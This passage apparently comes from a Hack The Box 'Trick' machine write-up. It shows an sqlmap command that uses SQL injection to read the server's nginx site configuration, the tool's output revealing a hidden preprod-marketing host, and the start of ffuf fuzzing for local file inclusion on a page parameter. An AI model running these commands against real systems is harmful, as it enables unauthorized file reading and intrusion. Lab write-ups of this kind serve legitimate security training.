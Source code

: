 	```
	![]({{ page.img_path }}Pasted%20image%2020220730231348.png)
	-  `/etc/nginx/sites-enabled/*` 
		- Files in `sites-enabled` could reveal 
			- web directories that we have not discovered yet
			- Could reveal names of other website
		- We have to guess the filename, it is usually named after website's FQDN or
		- `default` if the web administrator did not bother to rename it / seperate the configuration based on different vhost/website
13. Check if `/etc/nginx/sites-available/default` or `/etc/nginx/sites-available/default` exists by attempting to read it
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# sqlmap -r sqli.txt --output-dir=$(pwd)/sqlmap  --file-read=/etc/nginx/sites-enabled/default --batch --threads 10
	
	[23:24:01] [INFO] retrieving the length of query output
	[23:24:01] [INFO] retrieved: 4
	[23:24:02] [INFO] retrieved: 1058           
	[23:24:02] [INFO] the local file '/root/htb/trick/10.10.11.166/exploit/sqlmap/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default' and the remote file '/etc/nginx/sites-enabled/default' have the same size (1058 B)
	files saved to [1]:
	[*] /root/htb/trick/10.10.11.166/exploit/sqlmap/preprod-payroll.trick.htb/files/_etc_nginx_sites-enabled_default (same file)
	
	[23:24:02] [INFO] fetched data logged to text files under '/root/htb/trick/10.10.11.166/exploit/sqlmap/preprod-payroll.trick.htb'
	
	```
	![]({{ page.img_path }}Pasted%20image%2020220731001645.png)
	- Add `preprod-marketing.trick.htb` to `/etc/hosts`

## LFI Vulnerability - 2
1. Proceed to `preprod-marketing.trick.htb`
2. After browsing through the pages, found `GET` parameter that could be susceptible to local file inclusion
	![]({{ page.img_path }}Pasted%20image%2020220731014849.png)
3. FUZZ file to include
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# ffuf -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -w /usr/share/wordlists/LFI/file_inclusion_linux.txt  -fw 1
	
	        /'___\  /'___\           /'___\       
	       /\ \__/ /\ \__/  __  __  /\ \__/       
	       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
	        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
	         \ \_\   \ \_\  \ \____/  \ \_\       
	          \/_/    \/_/   \/___/    \/_/       
	